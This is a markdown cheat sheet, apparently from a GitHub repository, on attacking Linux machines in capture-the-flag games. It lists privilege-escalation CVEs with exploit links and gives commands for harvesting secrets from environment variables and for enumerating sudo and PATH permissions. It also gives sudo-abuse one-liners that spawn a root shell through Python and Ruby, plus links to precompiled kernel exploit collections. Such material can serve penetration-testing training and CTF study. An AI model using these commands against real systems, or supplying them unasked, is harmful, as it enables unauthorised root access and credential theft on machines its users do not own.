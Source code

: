 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja/) | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |


### Post Exploitation - Privilage Escalation
*Automated Tools:*
| Tool | Description |
| [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) | A script that search for possible paths to escalate privileges on Linux/Unix |


## Manual Privilage Escalation
*Grabbing OS Information*
```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

*Checking $PATH for Write Permissions*
If you have **write permissions on any folder inside the ``PATH`` variable** you may be able to hijacking some libraries or binaries:
```
echo $PATH
```

*Checking Environment Variables*
Looking for interesting information, passwords or API keys in the environment variables.
```
(env || set) 2>/dev/null
```

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

*Kernel Exploits*
Check the Kernel version for a possible CVE.
```
cat /proc/version
uname -a
```

*Searching for an exploit via SearchSploit*
```
searchsploit "Linux Kernel"
```

*Resources with Compiled Kernel Exploits*
| # | Resource | Description |
| --- | --- | --- |
| 1 | [Lucyoa's Github](https://github.com/lucyoa/kernel-exploits) | Linux Kernel Exploited, Precompiled. |
| 2 | [bwbwbwbw's GitHub](https://github.com/bwbwbwbw/linux-exploit-binaries) | List of very common Linux Kernel Exploits, Precompiled. |
| 3 | [Kabot's Privilege Escalation Packs](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) | Another lsit of Linux Kernel Exploits, Precompiled. |


# Resources Referenced
*Special Thanks to:*
| # | Name | Resource |
| --- | --- | --- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
